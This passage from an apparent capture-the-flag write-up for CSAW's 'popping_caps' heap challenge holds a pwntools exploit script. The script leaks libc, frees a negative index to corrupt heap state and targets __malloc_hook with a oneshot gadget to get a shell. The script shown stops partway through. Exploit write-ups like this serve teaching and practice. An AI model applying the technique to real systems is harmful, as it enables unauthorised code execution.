 After that, our seven actions are called. The function `bye` is called which calls malloc, and executes our oneshot gadget, and we get a shell!

## Exploit

Putting it all together, we have the following exploit:

```
from pwn import *

target = process('./popping_caps', env={"LD_PRELOAD":"./libc.so.6"})

#target = remote("pwn.chal.csaw.io", 1001)
libc = ELF("libc.so.6")
#gdb.attach(target, gdbscript = 'pie b *0xc44')

mallocHook = 0x3ebc30
salvation = 0x3ebb90

leak = target.recvuntil("Here is system ")
leak = target.recvline()
leak = leak.strip("\n")
leak = int(leak, 16)

libcBase = leak - libc.symbols["system"]
print "libc base: " + hex(libcBase)

def pl():
    print target.recvuntil("Your choice:")

def malloc(x):
    pl()
    target.sendline("1")
    print target.recvuntil("How many:")
    target.sendline(str(x))

def write(x):
    pl()
    target.sendline("3")
    print target.recvuntil("Read me in:")
    target.send(x)

def free(x):
    pl()
    target.sendline("2")
    print target.recvuntil("Whats in a free:")
    target.sendline(str(x))


mallocHook = libcBase + libc.symbols["__malloc_hook"]
salvation = libcBase + salvation
print "malloc hook: " + hex(libcBase + libc.symbols["__malloc_hook"])
print "free hook: " + hex(libcBase + libc.symbols["__free_hook"])
print "salvation: " + hex(salvation)


malloc(0x3a0)

free(0)

free(-528)

malloc(0xf0)

```